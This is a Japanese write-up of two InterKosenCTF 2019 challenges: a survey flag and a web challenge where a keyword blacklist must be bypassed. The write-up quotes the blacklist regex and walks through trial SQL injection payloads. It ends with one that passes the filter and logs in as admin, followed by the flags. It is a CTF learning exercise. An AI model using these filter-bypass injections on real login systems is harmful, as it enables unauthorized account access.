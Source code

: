 ### Survey

[212pts, 37solved, warmup, survey]
Surveyが時間によらないとアナウンスされていたので、ゆっくり埋めることができました。終わった後だと埋める気にならないので、競技中にアンケートをフェアに行うのはとても良いシステムだと思います。
`KosenCTF{th4nk_y0u_f0r_pl4y1ng_InterKosenCTF_2019}`

### E-Sequel-Injection

[500pts, 10solved, hard, web]
個人的に好きな分野です。いくつかの単語が使用禁止されているときに、それをBypassしてください。というjail escape系と解釈しています。(自分の中では)
まず、方針を考えると、adminとしてログインするのが最終目標なので、
1.adminのpasswordのleak->usernameでリークさせられないだろうか？
2.adminとして、後ろでなんとかする
の2つが思い浮かびました。
次に、与えられたソースコードをよく眺めます。
```
$pattern = '/(\s|UNION|OR|=|TRUE|FALSE|>|<|IS|LIKE|BETWEEN|REGEXP|--|#|;|\/|\*|\|)/i';
```
ここで禁止される単語がわかりますね。ORが潰されているのでpassw"or"dもダメです。というわけで、1.の方針はやばそうです。
passwordだけでなんとかしてみます。[SQLiについての記事](https://medium.com/@gregIT/ringzer0team-ctf-sqli-challenges-part-1-6ceff556f4a8)を見ると、比較系は以下のようになっています
```
= (comparison), <=>, >=, >, <=, <, <>, !=, IS, LIKE, REGEXP, IN
BETWEEN, CASE, WHEN, THEN, ELSE
NOT
AND, &&
XOR
OR, ||
= (assignment), :=
```
`IN`, `NOT`あたりが使えそうですね。
実際にいろいろ打ち込んでいきます。

`' or 1=1 #` 定番。スペースとシャープとイコールとORで引っかかります。
`'or(1=1)#` スペースなしで出来ました
`'IN('Tokyo')#` #だけでできるようになりました
`'IN('Tokyo')order by 'Tokyo'` orが入っています
`'IN('Tokyo')and!'0'` これで通りました。 -> `SELECT username from users where username='admin' and password=''IN('Tokyo')and!'0'`
流れとしては、まずは禁止文字を使って、徐々に禁止文字の種類を減らすように頑張っていくとよさそうです。
`KosenCTF{Smash_the_holy_barrier_and_follow_me_in_the_covenant_of_blood_and_blood}`

# 最後に

もっともっと精進して、一つでも多くのflagを速く通せるようにがんばりたいです。悔しいです。
作問者はすごい人々だなあと思いました。ツールゲーではなく、頭をひねるものが多くてとても楽しかったです。ありがとうございました。

::: message notice 
以降は、2021/10/05に追記しました。
:::

# 復習
